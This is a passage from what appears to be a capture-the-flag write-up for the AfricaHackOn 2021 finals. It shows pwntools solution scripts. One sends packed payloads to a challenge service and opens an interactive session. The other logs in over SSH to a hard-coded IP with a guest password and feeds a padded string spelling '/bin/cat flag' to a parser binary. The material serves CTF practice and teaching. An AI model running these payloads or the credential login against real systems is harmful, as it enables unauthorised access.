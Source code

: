 ```python3
	payload += p32(0x6e333e3a)
	payload += p32(0x6d343137)
	io.send(payload)"""

	payload = p32(0x4e455721)
	payload += p32(0x4b494e47)
	payload += p32(0x3f)
	payload += p32(0x6d343137)
	io.send(payload)
	payload += p32(0x75733334)
	payload += p32(0x66743352)
	payload += p32(0x66523333)
	io.send(payload)
	io.interactive()

if __name__ == "__main__":
	main()
```

### Parser 150pts

![image](/posts/2021-11-09_africahackon-2021-ctf-finals/images/34.png#layoutTextWidth)

```python3
#!/usr/bin/python3
#author: @BinaryChunk
from pwn import *

a = ssh("parser", "3.21.21.162", 22, password="guest")
io = a.run("./parser")

def main():
	payload = "AAAA/AAAbAAAiAAAnAAA/AAAcAAAaAAAtAAA AAAfAAAlAAAaAAAg"
	io.sendline(payload)
	io.interactive()

if __name__ == "__main__":
	main()
```
